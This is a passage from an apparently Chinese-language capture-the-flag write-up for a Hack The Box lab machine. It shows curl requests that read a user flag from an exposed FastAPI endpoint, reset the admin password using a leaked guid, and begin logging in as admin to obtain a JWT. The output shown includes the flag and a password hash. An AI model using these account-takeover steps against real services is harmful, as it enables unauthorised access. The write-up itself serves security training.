 ![20240421171136](https://cfproxy.iselt.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240421171136.png)

即可访问 `/docs` 接口，返回了 `FastAPI` 的文档

![20240421174846](https://cfproxy.iselt.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240421174846.png)

通过 `/api/v1/user/SecretFlagEndpoint` 我们获取到了 user 的 flag

```bash
curl -X 'PUT' \
  'http://10.10.11.161/api/v1/user/SecretFlagEndpoint' \
  -H 'accept: application/json'
```

```json
{
  "user.txt": "b1fce8ddfd7484230cf12db4b10faf00"
}
```

我们也发现了一个 `POST /api/v1/user/updatepass` 的接口，需要 `guid`，我们可以通过 `/user/1` 获取到 `admin` 的 `guid`，测试一下能不能更改 admin 的密码

```bash
curl -X 'POST' \
  'http://10.10.11.161/api/v1/user/updatepass' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/json' \
  -d '{
  "guid": "36c2e94a-4271-4259-93bf-c96ad5948284",
  "password": "123456"
}'
```

```json
{
  "date": null,
  "id": 1,
  "is_superuser": true,
  "hashed_password": "$2b$12$UdKTFBukB1Qctts8CPLESuIE8sOdJg/rHd87.jaMgFctMCTitsxya",
  "guid": "36c2e94a-4271-4259-93bf-c96ad5948284",
  "email": "admin@htb.local",
  "time_created": 1649533388111,
  "last_update": null
}
```

发现密码已经更改成功

我们调用 `/user/login` 接口，获取 `admin` 的 `JWT`

```bash
curl -X 'POST' \
  'http://10.10.11.161/api/v1/user/login' \
  -H 'accept: application/json' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'grant_type=&username=admin%40htb.local&password=123456&scope=&client_id=&client_secret='
```
